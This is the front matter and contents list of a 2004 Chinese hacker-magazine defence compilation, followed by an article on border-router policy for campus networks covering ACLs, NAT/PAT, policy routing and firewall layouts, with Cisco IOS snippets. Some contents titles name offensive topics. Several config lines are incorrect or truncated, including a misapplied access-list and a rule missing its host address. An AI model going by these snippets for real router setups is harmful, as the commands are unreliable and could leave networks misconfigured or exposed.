# 黑客防线2004精华本（下）

---

## 黑客防线 2004

### 精华集萃本（附册）

《黑客防线》编辑部 编

- 150个全程攻防录像演示，助您成为高手
- 150个黑客高手倾情力作，各有千秋
- 200篇精心挑选的精彩文章，使您爱不释手
- 200种攻击防范案例分析，使您一饱眼福

人民邮电出版社  
POSTS & TELECOM PRESS

## 内容提要

《黑客防线2004精华奉献本》是在《黑客防线》杂志攻、防两册明确定位后推出的第一个精华本，汇总了从《黑客防线》总第25期到总第36期的精华内容，并且增加新的专题内容融合而成。全书按照攻防关系分为攻册和防册2本，内容通俗易懂，图文并茂，非常便于读者阅读。在栏目划分上，选取了《黑客防线》最受读者欢迎的15个栏目，特别是漏洞攻击、脚本攻击、黑兵器库和漏洞攻击防范、脚本攻击防范、黑器攻击防范6个栏目一一呼应，攻防分明，非常适合读者学习和研究。

本书附赠2张光盘。光盘内容包括书中涉及到的不便于书面印刷的所有代码和大量流行的经典工具、技术文献、最新补丁，以及150个全程攻防录像演示。

本书适合网络管理人员、网络爱好者和网络安全技术人员阅读。

- 《黑客防线》总编：孙彬
- 《黑客防线》执行主编：郭晓辉
- 《黑客防线》编辑策划：徐生震、吴四锋、彭国军
- 《黑客防线》技术支持：hacker@hacker.com.cn
- 《黑客防线》网址：http://www.hacker.com.cn

## 黑客防线 2004 精华奉献本（防册）目录

### 最新奉献

- 基于双边界的路由策略 ...... 1
- 虚拟局域网——VLAN的稳定、安全与管理 ...... 11

### 专题企划

- 抓住罪恶的黑手——论计算机取证技术 ...... 20
- 打造免费的分布式入侵检测系统 ...... 26
- 垃圾数据会泄密 ...... 38
- SQL蠕虫王是怎样炼成的 ...... 44
- 打破妖怪B的神秘光环 ...... 48

### 漏洞攻击防范

- 加强终端服务的安全性 ...... 56
- 3389下的后门检测 ...... 61
- “黑客”与系统管理员的较量——系统管理员防御篇 ...... 63
- 通过日志追踪入侵者 ...... 66
- 关于Web服务器在内网的安全问题 ...... 69
- Discuz论坛短消息无限制发送次数缺陷防范方法 ...... 73
- 不可忽视的Web安全 ...... 74
- Alert! 来自135端口的威胁——DCOM RPC漏洞防范方法 ...... 76
- 对Helix Universal Server远程缓冲区溢出漏洞的测试与防护 ...... 78
- 分析缓冲溢出攻击及安全防范体系 ...... 80
- RPC服务器安全配置 ...... 82
- Solaris下的一次入侵分析 ...... 84

### 脚本攻击防范

- ASP代码源程序下载后安全使用初识——初做站长数据安全指南 ...... 87
- PHP的10项安全检查 ...... 89
- 书写安全的ASP程序 ...... 94
- Discuz论坛漏洞的修复及相关防范 ...... 98
- LeadBBS 2.77论坛安全分解报告 ...... 99
- 动网论坛6.0版+SP2的严重漏洞防范篇 ...... 102
- 小谈CGI安全——从Web服务器配置入手 ...... 103
- 浅谈路径泄露 ...... 107
- WDB漏洞的修复及相关防范 ...... 108
- LB5K论坛search.cgi文件漏洞修复及相关防范 ...... 109
- DVBBS新漏洞的修复及相关防范 ...... 111
- ASP程序漏洞补救方法两则 ...... 112
- 两个ASP文章系统变量未处理漏洞的防范 ...... 113
- 跨站脚本之防患未然 ...... 115
- ReleaseEasy 2漏洞大补救 ...... 116
- 弥补约稿奇兵潜在的漏洞 ...... 117
- SQL Injection问题之我所见 ...... 118

### 黑器攻击防范

- SuperACLS系统管理工具的妙用 ...... 121
- Wsu——系统管理工具的又一选择 ...... 124
- “安全配置和分析”图解教程 ...... 126
- 让你“心知肚明”——Antiy port的使用 ...... 129
- 单机版入侵检测系统Nuzzler Intrusion Detection图文攻略 ...... 130
- 打造Linux的“防火墙” ...... 134
- Whatsup Gold网络监控设计的应用 ...... 136
- 解析ARP攻击 ...... 139
- 谁在监视我的一举一动——ARP Sniffer的检测与防范 ...... 141
- 用噬菌体密码防盗专家保护你的账号 ...... 144
- Windows XP防火墙一点通 ...... 147
- 反黑客 木马专家 ...... 150
- 用SIMP实现MSN Messenger的安全交流 ...... 152
- CKrootkit程序检测实例 ...... 154

### CVC病毒专栏

- Win32病毒基础系列之API地址的获取 ...... 155
- 漫谈病毒重定位 ...... 159
- 不要问我从哪里来——浅析病毒入口模糊技术EPO ...... 160
- 宏病毒进阶剖析之探索、传染、消灭过程 ...... 163
- 关于未知脚本病毒的判断和查杀 ...... 166
- 脚本病毒避过杀毒软件的几种方法 ...... 168
- 病毒如何感染其他文件 ...... 170
- 解剖批处理蠕虫IPCWorm ...... 174
- Worm.Rpc.Zerg蠕虫分析 ...... 176
- 利用溢出漏洞炼制蠕虫 ...... 180

### 网管之家

- 把Service Pack集成到安装程序 ...... 185
- 怎样关闭受到入侵的端口 ...... 187
- 黑客是如何掩盖踪迹的 ...... 188
- Windows 2000活动目录的远程管理 ...... 192
- 从服务器日志中追查骇客行踪 ...... 194
- 追踪——如何在局域网内定位某台计算机的位置 ...... 197
- 日志分析的利器——WEBTRENDS应用实例 ...... 199
- 来自网管的反击 ...... 202
- 让微软的FTP服务器也用上SSL ...... 206
- Windows 2000账户密码的攻击方法以及对抗策略 ...... 208
- 你的IIS够安全吗 ...... 210
- 防范局域网内的服务器被入侵 ...... 212
- 给明文协议加把锁 ...... 214
- Web页面性能分析 ...... 216
- 安能辨我是雌雄——对Linux服务器进行伪装 ...... 218
- 安全配置CISCO路由器 ...... 220
- 在Solaris8上实现Sendmail的TLS认证 ...... 222

### 安全方案

- Windows 2000远程控制的3种安全解决方法 ...... 225
- MS SQL Server系统安全策略不完全指 ...... 228
- NTFS全面解决Windows 2000的安全方案 ...... 232
- 用IPSec简单地打造安全的服务器 ...... 236
- 电子商务中的数据安全解决方案 ...... 240
- 网络机房监控器的设计及实现 ...... 243
- Linux系统深度安全加固 ...... 245
- Qmail实现垃圾病毒邮件监控 ...... 249

本文以现有大中院校的校园网络为基础，提出一种基于双边界路由策略的校园网解决方案。首先介绍的是处于边界处路由器的使用问题，其次是通过访问控制列表解决内部网络的基本安全问题。重点介绍整个园区网络使用有限个数的IP，使内部网络众多用户同各个出口处的网络顺利通信的问题，所使用的技术是网络地址转换和代理服务器，同时分析了二者的区别和优缺点，并给出了二者的具体实现方法。

## 基于双边界路由策略

文／丁岚

随着互联网的迅速普及和发展，我国各教育基地和大中专院校基本都已接入Internet，其中网络结构多以双出口或多出口的园区网为主，即内部为校园局域网，边界处使用路由器，一条高速接入CERNET（China Education and Research Network）中国教育和科研网，一条连接到当地的ISP（Internet Service Provider）Internet服务提供商。基于现在校园网络的规模及以后的网络扩建需求，出口处数据流量会显著增加，边界处路由器的负荷也会不断加重，如不妥善处理这一问题，必将成为数据传输的瓶颈，网络内部的安全也会受到威胁。为了提高路由器及网络带宽的利用率，增加本地网络的安全性，解决通过边界路由器数据的路径选择问题，网络管理人员就必须针对边界路由器所处的特殊环境而采用更加合理的路由策略以达到这些目的，故此对边界路由器的合理配置和网络的规划成为我们需要解决的首要问题。

### 一、边界路由器的策略需求规划

#### 1. 路由器的高效利用

##### （1）边界路由器的所有权属于本地管理部门

图1中的网络环境是，在不设置任何策略的情况下，连接到ISP的其他网络和CERNET网络可以免费使用此路由器BCA相互通信，这样就会占用路由器中CPU对数据的处理进程及现存的网络带宽，本地网络与外部网络的数据通信会受到影响，所以要避免边界路由器被网络外部的其他通路使用，就要在边界路由器的相应接口上使用相应的策略以阻止对本地网络无用的数据流通。

##### （2）校园内部网络机器会不断增多

边界路由器与外部网络通信的数据报文数量在不断增大，路由器中CPU的负荷也加重。默认情况下，路由器采用的都是进程交换机制。这种情况下，报文的吞吐量取决于路由器CPU处理报文的速度。为了提高路由器的性能和对数据报文的吞吐量，就要使用一种更快速的交换技术——交换缓存技术。

#### 2. 路由器的安全策略

随着计算机网络的不断发展，全球信息化已成为人类发展的大趋势。网络安全和信息保密也被提高到至关重要的地位。对于网络内部各种用户（学生、教师、家属等）、服务器（DNS、WWW、E-Mail等）的敏感数据的计算机网络系统而言，其网上信息的安全和保密尤为重要。因此，上述网络必须有足够强的安全措施，否则该网络将是个无用网络。

#### 3. 数据的路径选择

由于校园网络内部的各种服务器域名都是向教育网或当地的Internet服务提供商申请的，真实IP由教育网和当地ISP提供的两部分组成，其数量对庞大的用户群来说非常有限。且使用教育网IP不能同连接ISP的其他网络直接通信，为了使校园内部网络用户使用现有真实IP访问Internet，外部网络用户访问本地服务器及共享资源，必须在处于边界处的路由器上使用相应策略以达到内外部网络用户的通信。实际网络中解决IP不足的方法主要有网络地址转换NAT（Network Address Translator）和使用代理服务器两种方法。

##### （1）网络地址转换（NAT）

网络地址转换NAT技术是Internet网络应用中一项非常实用的技术。以往主要被应用在并行处理的动态负载均衡以及高可靠性系统的容错备份实现上。最初，NAT技术是紧随CIDR（Classless Inter-Domain Routing）技术的出现而出现的。二者的主要目的都是为了解决当时传统IP网络地址紧张的问题。CIDR技术通过允许用任意长度子网掩码来划分网段，大大提高了对已注册地址的有效利用率。NAT技术则是一个有唯一出口的桩网络（STUB NETWORK），通过地址复用来提高对已注册地址的有效利用率，二者都为解决这一问题提供了有效手段。

事实上，在实现NAT技术之前，已经出现了一种类似技术——IP地址掩盖（IP Masquerading）。它是在外部网与内部网中某一台主机进行通信时，将内部这台主机所使用的IP地址映射为网关上的一个特定TCP端口，使得每次外部网主机访问网关上的某一端口时，其连接中的所有IP包都被转发给这一内部主机。这样整个内部网在与外部进行通信时，再无须任何IP地址，只需网关对外具有一个IP地址，而不同的内部网主机对外的不同连接使用网关上的不同TCP端口即可。但IP地址掩盖技术并未得到广泛认可，因为它功能极其有限，当内部网中与外部网联系的主机数量稍有增多时，网关的TCP连接控制部分就难以应付了，而且内部主机对外映射成不同的网关TCP端口。对于客户端这并没有什么关系，但对于提供服务的主机，就会出现服务端口不符合标准TCP规范的问题。而NAT技术的出现弥补了其中缺陷，迅速取代了IP地址掩盖技术，在网络中广泛使用。

##### （2）代理服务器（Application Proxy）

应用代理也叫应用网关，掌握着应用系统中可用作安全决策的全部信息，是内部网与外部网的隔离点，其特点是完全“阻隔”了网络通信流，通过对每种应用服务编制专门的代理程序，实现监视和控制应用层通信流的作用。应用网关系统对网络用户运行的各个应用都使用特殊目的代码，需要特殊的应用软件（如现在常用的代理服务软件Netscape Proxy Server和Microsoft Server Proxy）。

在其上运行代理服务器软件，内部网和外部网之间不能直接进行通信，必须经过此主机。也就是内部网络中的主机与该主机可以通信，Internet网络中的主机也可以与该主机通信，但两个网络中的主机不能直接通信。

使用代理服务器的目的就是通过有限的真实IP使网络内部的所有主机与网络外部通信，内外互相访问只有唯一通道即教育网通道。而对非教育网的访问通过非教育网的代理服务器完成，这些信息可顺利地通过ISP数据网出口进出。

### 二、路由策略中关键技术

#### 1. 路由

##### （1）静态路由

静态路由是指由网络管理员手工配置的路由信息。当网络的拓扑结构或链路状态发生变化时，网络管理员需要手工修改路由表中相关的静态路由信息。静态路由信息在缺省情况下是私有的，不会传递给其他路由器。当然，网管员也可以通过对路由器进行设置使之成为共享的。静态路由一般适用于比较简单的网络环境，在这样的环境中，网络管理员易于清楚地了解网络拓扑结构，便于设置正确的路由信息。最常用的静态路由记录就是把包传向连接本地网络路由的主机。静态路由系统无法对网络变化作出响应，所以对今天的大型、动态网络来说并不适用。静态路由也可以手工加在系统的路由表中。这些静态记录定义那些不是直接连接，但可以通过另一个称为路由器的主机或设备而到达的目标网络。

静态路由在全局设置模式如下：

```bash
ip route 目的子网地址 子网掩码 相邻路由器相邻端口地址或者本地物理端口号
```

静态路由在缺省路由时配置如下：

```bash
ip route 0.0.0.0 0.0.0.0 相邻路由器的相邻端口地址或本地物理端口号
```

##### （2）动态路由

动态路由是指路由器能够自动建立自己的路由表，并且能够根据实际情况变化适时进行调整。动态路由的原理是路由器向它知道的网络进行广播，其他主机听到这些定期广播后，就用最新的正确信息来更新路由表。这样，在路由表中只保留有效记录。路由器监听，同时也广播。动态路由用于那些不是直接连接但通过路由器可以到达的网络目标。一旦路由表识别到了其他可到达网络，被识别的路由器可以将包进行转发或投递。目前所使用的绝大多数主流路由算法都是动态路由算法，可以通过分析接收到的路由更新信息针对变化的网络环境作出相应调整。动态路由机制的运作依赖路由器的两个基本功能：对路由表的维护；路由器之间适时的路由信息交换。

静态路由和动态路由并不是完全对立的，在适当环境下，两者可以有机结合在一起，互为补充。这样，就可以保证所有信息都能够以某种方式被处理。

#### 2. 访问控制列表

访问控制列表（Access-list）的主要作用是基于已经建立的标准来允许或拒绝报文流，它应用到路由器的某个端口之后才会产生作用。路由器访问控制列表分为静态和动态两种。通常采用静态控制列表，它能支持多种路由协议，而动态控制列表只能支持IP协议，但可以提供相对多的安全功能。访问控制列表提供了基于路由器端口的一种基本安全访问技术，可以视为一种内部防火墙技术。访问控制列表可以分以下几类。

- 1. 静态访问控制列表
  - 标准访问控制列表

标准访问控制列表只允许过滤源地址，而且功能十分有限。也就是说，它只能允许具有某个特定IP地址的主机数据流进出路由器端口，或者禁止其进出路由器端口。这样我们就可以控制本地网络外部或内部的计算机进出内部网络，提供对本地内部网络主机的一种简单保护。

- 扩展访问控制列表

扩展访问控制列表用于扩展报文过滤能力。一个扩展访问表允许用户根据如下内容过滤报文：源地址和目的地址、所采用的网络协议、源端口和目的端口，以及在特定报文字段中允许进行特殊位比较的各种选项和上层应用数据。扩展访问控制列表对本地网络提供更详细的保护措施，尤其增加了被过滤的协议项，例如IP、TCP、UDP、ICMP等等。

随着网络发展和用户要求变化，一些厂商的路由器新增加了一种基于时间的访问列表。通过它，可以根据一天中的不同时间或者根据一星期中的不同日期（当然也可以二者结合起来）控制网络数据包转发。这种基于时间的访问列表就是在原来的标准访问列表和扩展访问列表中加入有效时间范围来更合理有效地控制网络。它需要先定义一个时间范围，然后在原来的各种访问列表基础上应用它。并且，对于编号访问表和命名访问表都适用。

##### （2）动态访问控制列表

动态访问控制列表是对传统访问表一种主要功能的增强，它是一种能够创建动态访问表项的访问表。传统标准访问表和扩展访问表不能创建动态访问表项，一旦在传统访问表中加入了一个表项，除非手工删除，该表项将一直产生作用。而在动态访问表中，网络管理员可以根据用户认证过程来创建特定的、临时的访问表。

网络管理员可以根据本地网络实际需要定义自己的规则来进行数据包路由，使用基于策略路由的办法来解决网络中的一系列问题。在具体应用中，基于策略的路由有：

- 基于源IP地址的策略路由；
- 基于数据包大小的策略路由；
- 基于应用的策略路由；
- 通过缺省路由平衡负载。

##### （3）设计访问控制列表时需考虑的规则

- 自上而下的处理方式

访问控制列表项的检测按自上而下顺序进行，并且从第一个表项开始，所以必须考虑在访问表中放入语句的次序。

- 添加表项

新的表项被添加到访问表末尾，也就是说，不可能改变已有访问表的功能。如果要改变，就必须创建一个新访问表并删除已存在的访问表，并且将新访问表用于接口上。

- 访问表位置

尽量考虑将扩展访问表放在靠近过滤源的位置上，这样创建的过滤器就不会反过来影响其他接口上的数据流。另外，尽量使标准访问表靠近目的。由于标准访问控制列表只使用源地址，因此将其靠近源会阻止报文流向其他端口。

- 语句的位置

由于IP协议包含ICMP、TCP和UDP，所以应将更为具体的访问控制列表表项放在不太具体的表项前面，以保证位于另一语句前面的语句不会否定表中后面语句的作用效果。

- 其他注意事项

如果没有access-list，则默认选项等于permit any（允许）。一旦添加了访问控制列表，最后缺省为deny any（禁止）。

可见，网络管理员可以通过本地网络边界路由器本身所提供的访问控制列表，实现本地网络很多的安全及其他应用要求。

#### 3. 网络地址转换

NAT网络地址转换，其功能是将企业内部自行定义的非法IP地址转换为Internet公网上可识别的合法IP地址。NAT转换是静态或动态地转换IP报文的源IP地址和（或）目的IP地址，使离开和（或）进入地址与原来不同。该功能可以隐藏内部网络的IP地址，以达到保护企业内部网络的目的。

##### （1）配置方法

NAT设置可以分为静态地址转换、动态地址转换、复用动态地址转换。

- 静态地址转换

静态地址转换将内部本地地址与内部合法地址……进行一对一的转换，且需要指定和哪个合法地址进行转换。如果内部网络有 E-mail 服务器或 FTP 服务器等可以为外部用户提供服务，则这些服务器的 IP 地址必须采用静态地址转换，以便外部用户可以使用这些服务。

###### ◇ 动态地址转换

动态地址转换也是将内部本地地址与内部合法地址一对一地转换，但是动态地址转换是从内部合法地址池中动态地选择一个未使用的地址来对内部本地地址进行转换的。

###### ◇ 复用动态地址转换

复用动态地址转换首先是一种动态地址转换，但是它可以允许多个内部本地地址共用一个内部合法地址。对只申请到少量 IP 地址但却经常同时有多个用户使用外部网络的情况，这种转换极为有用。

##### （2）网络地址转换技术（NAT）

目前市场上的路由器支持内部地址翻译、外部地址翻译和双向地址翻译功能。

内部地址翻译包括：源地址的静态单一地址翻译、源地址的静态子网翻译、源地址静态 TCP 翻译、源地址静态 UDP 翻译、源地址访问列表+地址池翻译、源地址访问列表+设备接口翻译、目的地址访问列表+地址池翻译。

外部地址翻译包括：源地址的静态单一地址翻译、源地址的静态子网翻译、源地址静态 TCP 翻译、源地址静态 UDP 翻译、源地址访问列表+地址池翻译。

NAT 技术的应用环境是一个有唯一出口的组网结构，这样才能保证所有的通信都必须经过 NAT 技术的网关，地址的转换不发生歧义。它通过地址复用来提高对已注册地址的有效利用率。NAT 技术中具体的 IP 地址复用方法是：在内部网中使用私有的虚拟地址，即由 Internet 地址分配委员会（IANA）所保留的几段 Private Network IP 地址。

- 以下是预留的 Private Network 地址范围：
- 10.0.0.0——10.255.255.255
- 172.16.0.0——172.31.255.255
- 192.168.0.0——192.168.255.255

由于这部分地址的路由信息被禁止出现在 Internet 骨干网络中，所以如果在 Internet 中使用这些地址是不会被任何路由器正确转发的，因而也就不会因使用这些地址而相互之间发生冲突。在边界路由器中设置一定的地址转换关系表并维持一个注册的真实 IP 地址池（IP Pool），通过路由器中的转换功能将内部的虚拟地址映射为相应的注册地址，使得内部主机可以与外部主机间透明地进行通信。

NAT 技术一般的形式为：NAT 网关依据一定的规则，对所有进出的数据包进行源与目的地址识别，并将由内向外的数据包中源地址替换成一个真实地址（注册过的合法地址），而将由外向内的数据包中的目的地址替换成相应的虚地址（内部用的非注册地址）。

从网关的出入方向看，NAT 有入向地址转换（inbound）、出向地址转换（outbound）和双向转换（bi-directional）3 种形式。绝大多数应用都属于入向转换形式，其他 2 种形式极少用到。从转换对应关系的角度来看，NAT 还可分为静态转换和动态转换二类。所谓静态转换就是在网关上预先设置好虚拟地址与实际地址的一一对应关系，在工作时不作实时更改；而动态转换则无需预先设置，直接由网关在运行时根据网络连接和地址空间的使用情况自行决定地址对应关系。

##### （3）NAT 术语

###### ◇ NAT 用语

Inside local，即内部局部地址——在内部网络上一个主机分配到的 IP 地址，通常是网管人员自己定义的私有地址。这个地址可能不是网络信息中心（NIC）或服务提供商所分配的合法 IP 地址。

Inside global，即内部全局地址——一个合法的 IP 地址（由 NIC 或服务供应商分配），向外部网络描述一个或多个本地合法 IP 地址。

Outside local，即外部局部地址——出现在内部网络的一个外部主机的 IP 地址。不一定是合法地址，它可以在内部网络中，从可路由的地址空间进……

Outside global，即外部全局地址——主机的拥有者在外部网络上分配给主机的 IP 地址。该地址可以从全局可路由地址或网络空间进行分配。

- 内部全局地址的超载

通过允许路由器为多个局部地址使用一个全局地址，可以在内部全局地址池中保存地址。当配置了超载后，路由器从较高级的协议（例如 TCP 或 UDP 端口号）中保持足够的信息，将这个全局地址转换到正确的局部地址。当多个本地地址映射到一个全局地址时，每一个内部主机的 TCP 或 UDP 端口号用于在诸多本地地址之间区分。一个内部全局地址代表多个内部局部地址时的 NAT 操作，TCP 端口号充当区分者。

- 翻译重叠地址

NAT 探讨了转换 IP 地址，也许是因为 IP 地址不是合法正式分配的 IP 地址，也许是选择了一个正式属于另一个网络的 IP 地址。上面这种地址既被合法地使用又被非法地使用的情况称作重叠。可以使用 NAT 去翻译与外部地址重叠的内部地址。

- 提供 TCP 负载均衡

另一种使用 NAT 的方式是与 Internet 地址无关的。你的机构可能有多个主机必须与一个频繁使用的主机通信。使用 NAT，在内部网上建立一个虚拟主机用于在那些真实主机中协调负载均衡。匹配一个访问列表的目的地址用循环地址池中的地址替换。分配是在一个循环中完成的，且只当打开了一个从外部到内部的新连接时。非 TCP 的通信不用经过翻译（除非其他翻译有效）。

- 改变翻译超时

缺省时，在经过一段时间的空闲后，动态地址翻译会超时。如果需要可以改变超时的缺省值。当超载没有配置时，在 1 h 后简单的翻译项就会超时。如果配置了超载，就会对翻译超时有一个较好的控制，因为每一项包含了更多的内容。

- 监视和维护 NAT

缺省时，动态地址翻译将按 NAT 转换表所规定的时间超时。可以在超时前，通过在管理态方式下清除超时项。

- NAT 池

NAT 池指用户向 ISP 申请了一组合法 IP，在路由器中，将这一组 IP 定义成 NAT 池，通过动态分配的办法，共享很少的几个外部合法 IP 地址。如果 NAT 池中动态分配的外部 IP 地址全部被占用后，后续的 NAT 翻译申请将会失败。用地址超载功能，通过端口号区分不同的连接，可解决这个问题。

- PAT 端口地址转换

通过 PAT 技术，用户只需向 ISP 申请一个合法 IP，就可以满足所有的用户访问 Internet。内部网络中的每个主机都被永久映射成外部网络中的某个合法地址。PAT 可以支持同时连接 64500 个 TCP/IP、UDP/IP，但实际可以支持的工作站个数会少一些。

#### 4. 交换缓存技术

所谓的交换缓存技术即一个报文到达后，将它从接口存储器拷贝到主 CPU 的内存中，CPU 从中抽取 IP 地址，确定网络号，执行路由表查找，再将其拷贝到输出接口的输出队列。这种方法的数据报文吞吐量取决于 CPU 处理报文的速度。这样也很容易使 CPU 超载，CPU 性能会因为高负荷而降低。通过路由器的数据达到 10 Mbit/s 会完全耗尽像 2500 这种配置的路由器 CPU。

在边界路由器的接口上配置允许路由缓存，这样数据流中的第一个报文同前面所描述的那样进行进程交换。在进程交换时，路由器装入一个缓存，其中有目的地址、要使用的接口和一个预先建立的适合于输出接口的数据帧头。当具有同一目的地址的另一个报文到来时，只有所需的 IP 头信息被拷贝进 CPU 的内存，减少了被拷贝的数据量，节约了时间，增加了路由器的吞吐量，使路由器更加高效。解决方法：对于图 1 中所示的路由器的两条输出路径而言，就要采用路由缓存技术来提高网络性能。

#### 5. 虚拟局域网

虚拟局域网是一种通过将局域网内设备逻辑划分成一个个网段从而实现虚拟工作组的新兴技术。这些工作站可以分布在多个实际的局域网网段上，而可以像都处于同一个局域网内一样地通信。有关虚拟局域网的技术详见下一篇文章：虚拟局域网。

#### 6. 网络防火墙

### （1）防火墙（Fire Wall）

防火墙就是一个或一组网络设备（计算机系统或路由器等），用来在两个或多个网络间加强访问控制，其目的是保护一个网络不受来自另一个网络的攻击。防火墙一般采用如下几种结构。

- ◇ 最简单的结构

这种网络结构能够达到使受保护的网络只能看到“桥头堡主机”（进出通信必经之主机）。桥头堡主机不转发任何 TCP/IP 通信包，网络中的所有服务都必须由桥头堡主机的相应代理服务程序来支持。但它把整个网络的安全性能全部托付于其中的单个安全单元，而单个网络安全单元又是攻击者首选的攻击对象，防火墙一旦被破坏，桥头堡主机就变成了一台没有寻径功能的路由器，系统的安全性不可靠。

- ◇ 单网段防火墙结构

其中屏蔽路由器的作用在于保护堡垒主机（应用网关或代理服务）的安全而建立起一道屏障。在这种结构中可将堡垒主机看作是信息服务器，它是内部网络对外发布信息的数据中心，但这种网络拓扑结构仍把网络的安全性大部分托付给屏蔽路由器，系统的安全性仍不十分可靠。

- ◈ 增强型单网段防火墙结构

在内部网与子网之间增设一台屏蔽路由器，这样整个子网与内外部网络的联系就各受控于一个工作在网络级的路由器，内部网络与外部网络仍不能直接联系，只能通过相应的路由器与堡垒主机通信。

##### （2）分布式防火墙

- ◈ 广义分布式防火墙

包括网络防火墙、主机防火墙和中心管理 3 部分。网络防火墙部署于内部网与外部网之间以及内网子网之间。网络防火墙区别于边界防火墙的特征在于，网络防火墙需支持内部网可能有的 IP 和非 IP 协议，而边界防火墙并不需要。主机防火墙对网络中的服务器和桌面系统进行防护，主机的物理位置可能在企业网中，也可能在企业网外。

由于边界防火墙只是网络中的单一设备，因此对其进行的管理也只能是局部管理。对于广义分布式防火墙来说，每个防火墙作为安全监测机制的组成部分，必须根据不同的安全要求被布置在网络中任何需要的位置上，它的管理必须是统一进行的。中心管理是分布式防火墙系统的核心和重要特征之一，安全策略的分发及日志的汇总都是中心管理具备的功能。

- ◇ 狭义分布式防火墙

指驻留在网络主机（如服务器或桌面机）并对主机系统提供安全防护的软件产品，驻留主机是这类防火墙的重要特征。这类防火墙将该驻留主机以外的其他网络都视为不可信任的，并对驻留主机运行的应用和对外提供的服务设定针对性很强的安全策略。

### 三、边界路由器策略具体实现

#### 1. ACL 的利用

##### （1）边界处路由器的高效利用策略

- ◇ 边界处路由器的所有权

使用访问控制列表可以实现边界路由器不被其他网络无偿使用，通过命令拒绝目的地址不是网络内部地址的信息包，这样当无用的信息包到达边界路由器时，就会被丢弃。具体配置如下：

```text
1）教育网和 ISP 数据网络的出口处的路由器设置：
router C(config)#access-list 100 permit 本地网真实IP段 通配符掩码
router B(config)#access-list 101 permit 本地网真实IP段 通配符掩码
多个出口可使用此命令重复配置。

2）选择 ACL 应用到入站接口：
router C(config)#access-list 100 in
router B(config)#access-list 101 in
```

###### ❖ 交换缓存技术

使用交换缓存技术，在进程交换时，路由器装入一个缓存，包括目的地址、要使用的接口和一个预先建立的适合于输出接口的数据帧头。当具有同一目的地址的另一个报文到来时，只有所需的 IP 头信息被拷贝进 CPU 的内存，从而减少了被拷贝的数据量，增加了路由器的吞吐量，使路由器更加高效。配置时只须在路由器上启用交换缓存。

### （2）在路由器上为服务器作关于源地址的策略路由

```text
1）指明针对哪些服务器作策略路由，对源地址作控制，使用标准控制列表：
router A(config)#access-list 2 permit 主机IP地址

2）创建路由映射，指明服务器数据包输出接口，并指定匹配的访问控制列表和路由器下一跳地址：
router A(config)#route-map djz permit 10
router A(config-route-map)#match ip address 2
router A(config-route-map)#set ip next-hop 出口处路由器接口地址

3）在校园网的接口上为路由器映射启用策略路由：
router A(config-if)#ip policy route-map djz
```

其中 djz 即在 2 中指明的映射标记，这样 2 中服务器输出接口即所指的接口。按规定，路由映射标记对一个接口只能有一个，但序列号（sequence number）可以有多个，系统会依据序列号顺序匹配路由入口。

#### 2. 安全的实现

大中型网络基本上都是由局域网、广域网、外部网接入 3 大部分组成。为了建立起强大、稳定、安全的网络，可以从以下 3 大安全层次着手设计与管理：局域网的安全、广域网的安全、外部网的安全。这三大安全层次针对的是网络结构的不同部分，应结合起来才能构成完善的园区网络安全保障体系。

##### （1）以交换式集线器代替共享式集线器

为了达到最好的网络性能，一般企业局域网结构采用分层结构，局域网的中心交换机为网络的核心，网络最终用户的接入往往是通过分支集线器而不是交换机，使用最广泛的分支集线器通常是共享式集线器，如图 2 所示。



这种最终用户接入方法正是网络安全性的隐患所在。用交换式集线器代替共享式集线器可以较好地消灭这一网络安全隐患。其中防火墙技术可根据防范方式和侧重点的不同而分为多种类型，但总体来讲可分为两大类：分组过滤和应用代理。

###### ❖ 分组过滤（Packet Filter）

分组过滤作用在网络层和传输层，与应用层无关。它根据分组报头源地址、目的地址、端口号、协议类型等标志确定是否允许数据包通过。只有满足过滤条件的数据包才能转发到相应的目的地址端口，其余数据包则被丢弃。分组过滤或包过滤，是一种通用、廉价、有效的网络安全手段。

目前，多数情况下校园网是通过路由器与 Internet 相连，校园网内的 IP 地址范围是确定的，而且具有明确的闭合边界（如图 1），网络地址为 202.119.224.0。以校园网中心为例，设它有一个 C 类 IP 地址 202.119.224.1，有 DNS、Email、WWW、FTP 等服务器，可以制定以下防火墙存取控制策略：

```text
① 对进入 Internet 网络的控制
每个校园网都有自己合法的 IP 地址，应禁止非法 IP 地址用户从本企业路由器访问 Internet，用如下命令设置校园网的防火墙：
router A(config)#interface E0
router A(config-if)#ip address 202.119.224.1
... 255.255.255.0 ...
router A(config-if)#ip access-group 20 out
router A(config)#access-list 20 permit ip 202.119.224.0 0.0.0.255
...
router A(config)#interface s0
router A(config-if)#ip access-group 101 in
router A(config)#access-list 101 permit tcp any host established
router A(config)#access-list 101 permit udp any host 202.119.224.2 eq dns
router A(config)#access-list 101 permit tcp any host 202.119.224.3 eq smtp
